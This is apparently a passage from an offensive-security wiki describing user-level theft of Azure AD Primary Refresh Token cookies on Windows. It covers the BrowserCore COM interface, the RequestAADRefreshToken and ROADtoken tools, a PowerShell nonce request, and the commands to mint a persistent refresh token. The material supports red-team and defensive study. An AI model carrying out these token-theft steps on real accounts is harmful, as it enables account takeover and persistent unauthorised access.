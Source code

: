 ### User-Level Token Theft (Non-Admin)

When an attacker has **user-level code execution**, the TPM protection of PRT doesn't stop the attacker from obtaining tokens. The attacker **leverages built-in Windows Token Broker APIs**:

#### **BrowserCore (MicrosoftAccountTokenProvider COM)**

BrowserCore exposes a COM class (`MicrosoftAccountTokenProvider`, CLSID `{a9927f85-a304-4390-8b23-a75f1c668600}`) to fetch PRT cookies. This COM API is invoked legitimately by browsers (Chrome/Edge extensions) for Azure AD SSO.

-   **[RequestAADRefreshToken](https://github.com/leechristensen/RequestAADRefreshToken)**

```bash
RequestAADRefreshToken.exe --uri https://login.microsoftonline.com
```

*(Returns an Azure AD refresh token or PRT cookie)*

- **[ROADtoken](https://github.com/dirkjanm/ROADtoken)** & **[ROADtools](https://github.com/dirkjanm/ROADtools)**

ROADtoken will run **`BrowserCore.exe`** from the right directory and use it to **obtain a PRT cookie**. This cookie can then be used with ROADtools to authenticate and **obtain a persistent refresh token**.

To generate a valid PRT cookie the first thing you need is a nonce.\
You can get this with:

```bash
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
    "URI"     = $URL
    "Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```

Or using [**roadrecon**](https://github.com/dirkjanm/ROADtools):

```bash
roadrecon auth prt-init
```

Then you can use [**roadtoken**](https://github.com/dirkjanm/ROADtoken) to get a new PRT (run in the tool from a process of the user to attack):

```bash
.\ROADtoken.exe <nonce>
```
